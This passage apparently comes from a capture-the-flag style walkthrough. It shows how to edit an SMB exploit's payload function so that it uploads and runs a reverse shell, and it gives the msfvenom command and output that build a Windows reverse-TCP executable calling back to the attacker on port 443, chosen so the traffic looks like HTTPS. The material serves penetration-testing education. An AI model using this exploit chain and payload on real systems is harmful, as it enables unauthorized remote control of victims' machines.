 The exploit expects a target IP as a command line argument. Then, it exploits the target and executes the code in its `smb_pwn` function shown below.

{% highlight python linenos %}
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
{% endhighlight %}

We can change the content of this function to upload and execute a reverse shell payload as demonstrated below. This code uploads and executes a file named "rs.exe". The next step is to generate this file.

{% highlight python linenos %}
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()
    smb_send_file(smbConn, './rs.exe', 'C', '/rs.exe')
    service_exec(conn, r'cmd /c C:\rs.exe')
{% endhighlight %}

A reverse shell executable can be generated with [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) by executing `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f exe -o rs.exe`. The `-p` flag selects the payload `windows/shell_reverse_tcp` which is a payload that connects back to us on a specific port, providing us with a shell. This payload is stageless and we can thus simply listen for a connection using a netcat listener. The `LHOST` and `LPORT` parameters specifiy our IP address and the port we want the target to connect to. In our case, we choose port 443 since it is usually used for HTTPS traffic and thus traffic to this port might look less suspicious than a random port. Finally, the `-f` flag is used to specify that we want to output the payload as a [Portable Excecutable](https://en.wikipedia.org/wiki/Portable_Executable) and the `-o` flag specifies the output file `rs.exe`.
 
{% highlight none linenos %}
kali@kali:/tmp/x$ @@msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f exe -o rs.exe@@
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
@@@Saved as: rs.exe@@@
kali@kali:/tmp/x$
{% endhighlight %}
